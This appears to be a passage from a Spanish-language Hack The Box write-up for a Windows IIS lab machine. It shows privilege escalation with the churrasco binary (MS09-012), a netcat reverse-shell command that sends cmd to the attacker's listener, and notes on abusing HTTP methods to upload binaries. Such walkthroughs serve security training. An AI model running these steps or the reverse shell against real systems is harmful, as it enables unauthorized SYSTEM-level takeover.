 
Subiendo binarios a la web para la elevación de privilegios

![](https://i.imgur.com/j6Z6Sbl.png)

![](https://i.imgur.com/yQzb6kG.png)

Estos ejecutables se encuentran en la ruta **C:\Inetpub\wwwroot**

El binario se ha transferido exitosamente:
```
C:\Inetpub\wwwroot>churrasco "whoami"
nt authority\system
```
Se envía una cmd con nc hacia el puerto en escucha en nuestra máquina:
```
C:\Inetpub\wwwroot>churrasco "C:\Inetpub\wwwroot\nc.exe -e cmd 10.10.14.8 448"
```

## Revershell
Y ahora se obtienen privilegios de **nt authority\system**

![](https://i.imgur.com/FpL9cPF.png)

Y ya se pueden obtener las flags user.txt y root.txt

# Recomendaciones u anotaciones

1. Tener siempre en cuenta las **cabeceras de respuesta**.
2. El uso malintencionado de los **métodos HTTP** y el incorrecto manejo de estos pueden llevar a obtener un primer acceso.
3. **Burpsuite** ayuda a obtener un mejor entendimiento.
4. **Curl** permite subir binarios con su parámetro **--data-binary**
5. Considerar el método **MOVE** como alternativa.
6. Usar rutas absolutas en vez de rutas relativas.
7. **MS09-012** junto al binario **churrasco** sirvió para escalar privilegios.

# Enlaces

* Para entender la respuesta de cabecera **X-Powered-By**:
[https://stackoverflow.com/questions/33580671/what-does-x-powered-by-mean](https://stackoverflow.com/questions/33580671/what-does-x-powered-by-mean)

* Enlace del binario churrasco.exe:
[https://github.com/Re4son/Churrasco](https://github.com/Re4son/Churrasco)

* Writeups que me gustaron y ayudaron a tener un mejor entendimiento:
[https://0xdf.gitlab.io/2019/03/06/htb-granny.html](https://0xdf.gitlab.io/2019/03/06/htb-granny.html)
[https://ranakhalil101.medium.com/hack-the-box-granny-writeup-w-o-and-w-metasploit-f7a1c11363bb](https://ranakhalil101.medium.com/hack-the-box-granny-writeup-w-o-and-w-metasploit-f7a1c11363bb)
[https://bros10.github.io/posts/Granny/](https://bros10.github.io/posts/Granny/)
[https://www.youtube.com/watch?v=ZfPVGJGkORQ&t=318s](https://www.youtube.com/watch?v=ZfPVGJGkORQ&t=318s)

